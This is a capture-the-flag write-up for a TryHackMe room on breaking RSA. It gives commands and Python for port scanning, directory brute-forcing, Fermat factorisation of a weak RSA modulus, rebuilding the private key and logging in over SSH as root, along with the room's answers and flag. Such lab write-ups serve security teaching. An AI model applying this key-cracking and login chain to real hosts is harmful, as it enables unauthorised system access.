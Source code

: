 ![Breaking RSA Banner](https://assets.tryhackme.com/img/banners/default_tryhackme.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/breakrsa/ROOM_TITLE_Cover.png" alt="Breaking RSA Logo">
</p>

# Breaking RSA

This guide contains the answer and steps necessary to get to them for the [Breaking RSA](https://tryhackme.com/room/breakrsa) room.

### Capture the flag

1. How many services are running on the box?

   Using nmap will give us the running services.

   ```console
   nmap -sS -sV 10.10.97.159 -Pn -p-
   ```

   ![Nmap](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/breakrsa/Breaking_Rsa_Nmap.png)

   ><details><summary>Click for answer</summary>2</details>

2. What is the name of the hidden directory on the web server? (without leading '/')

   We can use multiple tools for this task. I will use `dirsearch` here.

   ```console
   dirsearch -u 10.10.97.159:80 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -r
   ```

   ![Directory](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/breakrsa/Breaking_Rsa_Directory.png)

   This gives us a hidden directory which happens to contain an id_rsa key.

   ><details><summary>Click for answer</summary>development</details>

3. What is the length of the discovered RSA key? (in bits)

   To find details about the key, we can use `ssh-keygen`.

   ```console
   ssh-keygen -l -f Downloads/id_rsa.pub 
   ```

   ![Length](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/breakrsa/Breaking_Rsa_Length.png)

   ><details><summary>Click for answer</summary>1096</details>

4. What are the last 10 digits of n? (where 'n' is the modulus for the public-private key pair)

   To get the components of the public key we can use the suggested python module 'pydryptodome'.

   First we must convert the public key to PEM format using `ssh-keygen`.

   ```console
   ssh-keygen -e -f id_rsa.pub -m pem
   ```

   Now we can use the following python code to extract the modulus 'n':

   ```python
   from Crypto.PublicKey import RSA
   key_encoded='''<id_rsa key here>'''


   pubkey = RSA.importKey(key_encoded)
   print(f"Modulus n is: {pubkey.n}")
   print(f"Constant e is: {pubkey.e}")
   ```

   ![Modulus](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/breakrsa/Breaking_Rsa_Modulus.png)

   ><details><summary>Click for answer</summary>1225222383</details>

5. Factorize n into prime numbers p and q

   The provided script didn't work as the modulus was too large to be handled by it. Modifying it also didn't work, so I used a different script.

   ```python
   def isqrt(n):
	x=n
	y=(x+n//x)//2
	while(y<x):
		x=y
		y=(x+n//x)//2
	return x
   def fermat(n):
      t0=isqrt(n)+1
      counter=0
      t=t0+counter
      temp=isqrt((t*t)-n)
      while((temp*temp)!=((t*t)-n)):
         counter+=1
         t=t0+counter
         temp=isqrt((t*t)-n)
      s=temp
      p=t+s
      q=t-s
      return p,q

   print("Enter the number to factor of form (p*q):	")
   n=int(input())
   p,q=fermat(n)
   print("Your first number   : ",int(p))
   print("Your Second number  : ",int(q))
   ```

   Now we can enter the modulus we acquired and we are given 'p' and 'q'.

   ![Factorized](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/breakrsa/Breaking_Rsa_Factorized.png)

   ><details><summary>Click for answer</summary></details>

6. What is the numerical difference between p and q?

   The previous script also outputs the differences between the two factors.

   ><details><summary>Click for answer</summary>1502</details>

7. Generate the private key using p and q (take e = 65537)

   I first tried using openssl, without any success. So I used the pycryptodome library to create a python script to help me with this.

   ```python
   from Crypto.PublicKey import RSA

   # Specify the factors
   p = <first prime>
   q = <second prime>
   e = 65537

   # Calculate n and d
   n = p * q
   phi = (p - 1) * (q - 1)
   d = pow(e, -1, phi)

   # Create the RSA key object
   key = RSA.construct((n, e, int(d)))

   # Export the private key to a PEM file
   with open("private_key.pem", "wb") as f:
      f.write(key.export_key())
   ```

   Add both primes we found in the previous step and generate the private key.

   ```console
   python genpkey.py
   ```

   ![Private Key](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/breakrsa/Breaking_Rsa_Private_Key.png)

8. What is the flag?

   Now that we have the private key, we can use it to ssh into the machine. From the hidden directory we also learned that root login was enabled.

   First restrict usage of the private keu with `chmod`:

   ```console
   chmod 600 private_key.pem
   ```

   Now we can ssh into the machine as root with:

   ```console
   ssh root@10.10.97.159 -i private_key.pem
   ```

   ![Ssh](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/breakrsa/Breaking_Rsa_Ssh.png)

   ![Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/breakrsa/Breaking_Rsa_Flag.png)

   ><details><summary>Click for answer</summary>breakingRSAissuperfun20220809134031</details>